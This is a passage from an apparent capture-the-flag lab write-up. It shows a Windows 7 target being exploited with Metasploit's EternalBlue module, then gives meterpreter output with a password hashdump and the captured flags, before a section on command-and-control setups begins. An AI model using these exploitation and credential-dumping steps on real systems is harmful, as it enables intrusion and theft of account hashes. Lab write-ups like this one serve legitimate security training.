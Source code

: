
As seen, we are dealing with an old version of windows: `Windows 7 Home Basic 7600`, we can use `eternalblue` exploit in `metasploit` to get a shell as `nt authority/system:


![Pasted image 20250512130804.png](../../../IMAGES/Pasted%20image%2020250512130804.png)

We need to run it a couple times for it to work, we now got a shell:



```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d108721c5626a6a054d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867e5664425c1309a5c:::


meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c871dced619876321081132744}


meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e35f8353ffd04cfc0be28e760}
```


# Advanced C2 Setups
---

### There's Always Room for Improvement

As you may have guessed,Â MetasploitÂ itself is not that great of aÂ C2Â server for advanced adversary operations. It's not as flexible as one would desire; you cannot configure agents to beacon out every X seconds with Y jitter. A Next-GenerationÂ FirewallÂ could quickly pick up on thisÂ C2Â traffic, seeing it's a constant stream of traffic.Â In addition, anyone could connect to anÂ HTTP/HTTPS listener and find out relatively quickly what is going on.
